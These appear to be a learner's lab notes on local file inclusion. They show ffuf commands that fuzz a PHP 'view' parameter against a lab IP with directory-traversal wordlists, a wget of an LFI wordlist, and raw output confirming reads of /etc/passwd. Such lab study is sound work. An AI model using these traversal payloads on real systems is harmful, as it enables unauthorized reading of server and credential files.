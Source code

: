 --> view

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://83.136.250.104:45346/index.php?view=../../../../FUZZ/index.php' -fs 2309

:: Progress: [4/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: /srv/www/sites/         [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/html/          [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/srv/www/               [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/srv/www/html/          [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/home/$USER/www/        [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/home/$USER/public_html/ [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 0ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/               [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 0ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/public/        [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/home/httpd/            [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/sites/         [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 0ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/home/www/              [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 2ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/public_html/   [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:/var/www/html/default/  [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 2ms]
:: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors::: Progress: [13/13] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

--> too much results

wget -c https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux -O LFI-WordList-Linux

ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.250.104:45346/index.php?view=../../../../FUZZ' -fs 2309

--> too much results

ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.250.104:45346/index.php?view=../../../../FUZZ' -fs 1935

--> no results

ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.250.104:45346/index.php?view=FUZZ' -fs 2309

ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.250.104:45346/index.php?view=FUZZ' -fs 1935

../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]
:: Progress: [290/870] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]
:: Progress: [291/870] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]
:: Progress: [292/870] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 0ms]